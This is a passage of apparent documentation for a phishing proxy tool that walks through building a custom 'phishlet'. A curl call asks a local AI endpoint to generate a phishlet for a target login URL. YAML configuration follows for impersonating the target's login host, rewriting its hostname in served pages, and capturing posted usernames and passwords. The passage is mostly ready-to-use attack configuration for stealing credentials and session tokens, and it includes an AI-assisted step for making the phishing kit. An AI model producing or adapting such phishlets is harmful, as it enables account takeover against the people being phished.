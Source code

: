 ## Phishlet Management

### Understanding Phishlets

Phishlets are configuration files that define:

- **Target Service**: Which service to impersonate
- **Proxy Rules**: How to handle requests/responses
- **Credential Extraction**: How to capture login data
- **Session Management**: How to handle authentication tokens

### Creating Custom Phishlets

1. **Analyze Target Service**
   ```bash
   # Use AI to analyze target
   curl -X POST http://localhost:8080/api/ai/generate-phishlet \
        -H "Content-Type: application/json" \
        -d '{"target_url": "https://login.example.com"}'
   ```

2. **Configure Proxy Hosts**
   ```yaml
   proxy_hosts:
     - phish_sub: 'login'
       orig_sub: 'login'
       domain: 'example.com'
       session: true
       is_landing: true
   ```

3. **Set Up Filters**
   ```yaml
   sub_filters:
     - triggers_on: 'login.example.com'
       orig_sub: 'login'
       domain: 'example.com'
       search: 'login.example.com'
       replace: '{hostname}'
       mimes: ['text/html']
   ```

4. **Define Credentials**
   ```yaml
   credentials:
     username:
       key: 'username'
       search: '(.*)'
       type: 'post'
     password:
       key: 'password'
       search: '(.*)'
       type: 'post'
   ```
